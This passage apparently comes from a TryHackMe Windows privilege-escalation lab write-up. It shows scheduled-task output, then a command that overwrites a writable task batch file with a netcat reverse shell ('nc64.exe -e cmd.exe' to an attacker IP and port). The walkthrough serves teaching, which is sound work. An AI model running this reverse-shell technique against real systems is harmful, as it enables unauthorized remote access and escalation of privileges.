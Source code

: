 ```console
Run As User:                          taskusr1
Delete Task If Not Rescheduled:       Disabled
Stop Task If Runs X Hours and X Mins: 72:00:00
Schedule:                             Scheduling data is not available in this format.
Schedule Type:                        At system start up
Start Time:                           N/A
Start Date:                           N/A
End Date:                             N/A
Days:                                 N/A
Months:                               N/A
Repeat: Every:                        N/A
Repeat: Until: Time:                  N/A
Repeat: Until: Duration:              N/A
Repeat: Stop If Still Running:        N/A

C:\Users\thm-unpriv>whoami
wprivesc1\thm-unpriv
```
{: .nolineno }

Then Overwrite the file and run a listener on the attacker machine :

```console
echo c:\tools\nc64.exe -e cmd.exe 10.10.58.45 4444 > C:\tasks\schtask.bat
```
{: .nolineno }

![Task scheduler exploit](/images/thm/windowsprivesc20/windowsprivesc20_5.png)
_Task scheduler exploit_
